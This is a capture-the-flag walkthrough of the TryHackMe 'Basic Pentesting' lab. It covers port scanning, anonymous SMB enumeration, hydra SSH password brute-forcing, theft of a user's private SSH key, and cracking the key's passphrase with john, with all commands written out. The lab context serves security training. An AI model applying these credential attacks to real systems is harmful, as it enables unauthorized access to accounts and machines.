 ```bash
# PLATFORM          . THM
# CTF NAME          . Basic Pentesting
# DESCRIPTION       . This is a machine that allows you to practise web app hacking and privilege escalation
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/basicpentestingjt
```

___

- I've started scanning the target machine to get a better understanding about the environment.

```bash
sudo nmap -sSVC -T5 10.10.245.193 -p- -oN ~/workspace/ctf_workspace/basicpt
```

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)

80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2023-11-17T07:33:09-05:00
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-time: 
|   date: 2023-11-17T12:33:09
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

```

- While the scan was running, I've checked if there's a webserver running on :80 and there was one.

- However, not much information is given to us.

```
Undergoing maintenance
Please check back later
```

- Checking the source code, we get another piece of information

```html
<!-- Check our dev note section if you need to know what to work on. -->
```

- This made me try navigating to /dev or /development. The latter was working.

- The content of this page is two files, `dev.txt` and `j.txt`.

```dev.txt

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat to host that on this server too. Haven't made any real web apps yet, but I have tried that example you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm  using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

```j.txt
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials, and I was able to crack your hash really easily. You know our password policy, so please follow it? Change that password ASAP.

-K
```

- From these two notes, we get valuable information.

- From `dev.txt`, we find out that the webserver is using Apache and that the SMB has been configured on the host alongside with some piece of software that we're not sure if it's installed on our target or not. 

- On the other side, `j.txt` reveals that the `j` has a really weak password ; (or had, in case it was changed in the meanwhile)

- Going back to our `nmap` scan, the most attractive thing to me was the SMB server ; 

- I've checked for possible shares using 

```bash
smbclient -L \\10.10.245.193
```

and `anonymous` as a password when asked. 

```
	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      
	IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
```

- There's a share called `Anonymous`;

- Can connect to it using `smbclient \\\\10.10.245.193\\Anonymous` with `anonymous` as password.

```
smb: \> ls
  .                                   D        0  Thu Apr 19 20:31:20 2018
  ..                                  D        0  Thu Apr 19 20:13:06 2018
  staff.txt                           N      173  Thu Apr 19 20:29:55 2018

		14318640 blocks of size 1024. 11093564 blocks available
```

```
smb: \> get staff.txt 
getting file \staff.txt of size 173 as staff.txt (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> exit

```

```staff.txt
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but this is how mistakes happen. (This means you too, Jan!)

-Kay
```

- This file is important ; it reveals us the 2 users from the notes above, `jan` and `kay`. 

- Since we already know `Jan's` password is weak, let's try bruteforcing the SSH for this user.

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.245.193 ssh
```

**NOTE**: it takes ~10 minutes to find the password.

- Once we find the password, we're able to ssh to the box.

- I have looked around and tried different manual enumaration / looked for privilege escalation.

- By using `cat /etc/passwd | cut -d ":" -f 1 ` I've noticed that the only 2 users available on the system are `jan` and `kay`. 

- I tried to navigate to `/home/kay` and I've noticed that besides the `pass.bak` file that I couldn't read, I could navigate to `.ssh` and read the `id_rsa` key.

- With the key copied to my machine, I have tried SSHing to the box using `kay`'s key `chmod 600 id_rsa && ssh -i id_rsa kay@ip` but I have been asked for a passphase.

- I've used `python3 /opt/john/run/ssh2john id_rsa > id_rsa.hash` to format the file to something `john` can handle and then ran `john --wordlist=/usr/share/wordlists/rockyou.txt` against the file, revealing `beeswax` as the passphrase.

- After being able to SSH in as kay, I was able to read the `pass.bak` file from his home, which revealed the final flag.

